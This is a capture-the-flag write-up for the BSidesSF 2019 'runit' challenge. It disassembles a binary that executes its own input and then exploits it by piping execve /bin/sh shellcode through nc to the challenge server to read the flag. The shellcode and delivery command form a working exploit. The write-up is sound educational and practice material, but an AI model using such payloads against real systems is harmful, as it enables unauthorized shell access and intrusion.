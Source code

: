 # runit

PWN | 25 Points

We are given a typical binary executable. Let's first see what it does.
```
root@kali:~/Crack Me# ./runit
Send me stuff!!
asdfasdf
Segmentation fault
```
Executing it, we feed the program input, but for some reason we get a segmentation fault. Recall that a segmentation fault occurs when you try to access a region of memory that doesn't exist. We'll keep that in mind as we proceed.

Now, let's disassemble the binary.
```assembly
   0x0804854b <+0>:	lea    ecx,[esp+0x4]
   0x0804854f <+4>:	and    esp,0xfffffff0
   0x08048552 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048555 <+10>:	push   ebp
   0x08048556 <+11>:	mov    ebp,esp
   0x08048558 <+13>:	push   ecx
   0x08048559 <+14>:	sub    esp,0x14
   0x0804855c <+17>:	sub    esp,0x8
   0x0804855f <+20>:	push   0x0
   0x08048561 <+22>:	push   0x0
   0x08048563 <+24>:	push   0x22
   0x08048565 <+26>:	push   0x7
   0x08048567 <+28>:	push   0x400
   0x0804856c <+33>:	push   0x0
   0x0804856e <+35>:	call   0x8048410 <mmap@plt>
   0x08048573 <+40>:	add    esp,0x20
   0x08048576 <+43>:	mov    DWORD PTR [ebp-0x10],eax
   0x08048579 <+46>:	sub    esp,0xc
   0x0804857c <+49>:	push   0xa
   0x0804857e <+51>:	call   0x80483e0 <alarm@plt>
   0x08048583 <+56>:	add    esp,0x10
   0x08048586 <+59>:	mov    eax,ds:0x804a034
   0x0804858b <+64>:	push   0x0
   0x0804858d <+66>:	push   0x2
   0x0804858f <+68>:	push   0x0
   0x08048591 <+70>:	push   eax
   0x08048592 <+71>:	call   0x8048430 <setvbuf@plt>
   0x08048597 <+76>:	add    esp,0x10
   0x0804859a <+79>:	mov    eax,ds:0x804a030
   0x0804859f <+84>:	push   0x0
   0x080485a1 <+86>:	push   0x2
   0x080485a3 <+88>:	push   0x0
   0x080485a5 <+90>:	push   eax
   0x080485a6 <+91>:	call   0x8048430 <setvbuf@plt>
   0x080485ab <+96>:	add    esp,0x10
   0x080485ae <+99>:	sub    esp,0xc
   0x080485b1 <+102>:	push   0x8048690
   0x080485b6 <+107>:	call   0x80483f0 <puts@plt>
   0x080485bb <+112>:	add    esp,0x10
   0x080485be <+115>:	sub    esp,0x4
   0x080485c1 <+118>:	push   0x400
   0x080485c6 <+123>:	push   DWORD PTR [ebp-0x10]
   0x080485c9 <+126>:	push   0x0
   0x080485cb <+128>:	call   0x80483d0 <read@plt>
   0x080485d0 <+133>:	add    esp,0x10
   0x080485d3 <+136>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485d6 <+139>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x080485da <+143>:	jns    0x80485f6 <main+171>
   0x080485dc <+145>:	sub    esp,0xc
   0x080485df <+148>:	push   0x80486a0
   0x080485e4 <+153>:	call   0x80483f0 <puts@plt>
   0x080485e9 <+158>:	add    esp,0x10
   0x080485ec <+161>:	sub    esp,0xc
   0x080485ef <+164>:	push   0x1
   0x080485f1 <+166>:	call   0x8048400 <exit@plt>
   0x080485f6 <+171>:	mov    eax,DWORD PTR [ebp-0x10]
   0x080485f9 <+174>:	call   eax
   0x080485fb <+176>:	mov    eax,0x0
   0x08048600 <+181>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048603 <+184>:	leave  
   0x08048604 <+185>:	lea    esp,[ecx-0x4]
   0x08048607 <+188>:	ret
```
We are given way more information than we actually need. There's a lot going on here, but we see some interesting things.

1. The `alarm` call gives us 10 seconds to access the binary. It isn't the worst thing that could happen, but just very annoying.
2. The `read` call's file descriptor is `stdin`, so it is the read function which takes care of IO. The interesting consequence here is that we won't see any buffer overflows.
3. There is a call to `eax` at `0x080485fb`. Given that we saw a segmentation fault, this makes things very interesting.

We'll set a break point right at that call function, and we'll see what's in `eax`.
```
(gdb) b *0x080485f9
Breakpoint 1 at 0x80485f9
(gdb) r
Starting program: /root/Crack Me/runit
Send me stuff!!
ABCD

Breakpoint 1, 0x080485f9 in main ()
(gdb) x/s $eax
0xf7ffb000:	"ABCD\n"
```
Sure enough, it's the input we gave. Given that it's a call to `eax`, we can simply inject shell code instead. Let's open up our [trusty shell code](http://shell-storm.org/shellcode/files/shellcode-811.php) and we'll inject that into the program.
```
root@kali:~/quintuplecs/BSidesSF2019# (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | nc runit-5094b2cb.challenges.bsidessf.net 5252
Send me stuff!!
cat /home/ctf/flag.txt
CTF{you_ran_it}
```
